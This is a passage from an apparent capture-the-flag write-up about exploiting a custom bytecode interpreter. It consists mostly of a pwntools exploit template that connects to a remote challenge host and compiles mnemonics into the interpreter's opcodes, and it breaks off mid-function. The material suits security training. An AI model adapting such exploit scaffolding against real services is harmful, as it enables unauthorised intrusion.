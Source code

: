Alright, we have some ideas of how to use this interpreter. Now just for convenience I took the time to make a small compiler in my exploit template for easier use of this bytecode language: 

```py
#!/usr/bin/env python3

from pwn import *
from enum import Enum

class OpCodes(Enum):
	ADD = 0
	SUB = 1
	DIV = 2
	MUL = 3
	AND = 4			
	XOR = 5
	OR  = 6	
	PUSH= 7	
	POP = 8
	PRT = 9	
	PUTS= 10		
	DEC = 11
	INC = 12
	LEA = 13
	NOP = 14
	HALT= 15

elf = ELF("bytecode_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld = ELF("./ld-linux-x86-64.so.2", checksec=False)

context.binary = elf
context.terminal = ['alacritty', '-e']

def conn():
    if args.REMOTE:
        r = remote("172.210.129.230", 1350)
    else:
        r = process([elf.path])
        if args.GDB:
            gdb.attach(r)

    return r

def compile(shellcode: str):
    instructions = shellcode.strip().split("\n")
    result = b""
    for instruction in instructions:
        instruction = instruction.strip()
        separator = instruction.find(" ")

        if separator != -1:
            parts = [instruction[:separator], instruction[separator+1:]]
        else:
            parts = [instruction]

        for opcode in OpCodes:
            if opcode.name in parts[0]:
                result += opcode.value.to_bytes(1, "little")

        if len(parts) != 2:
            continue # skip if we don't have args

        for arg in parts[1].split(","):
```
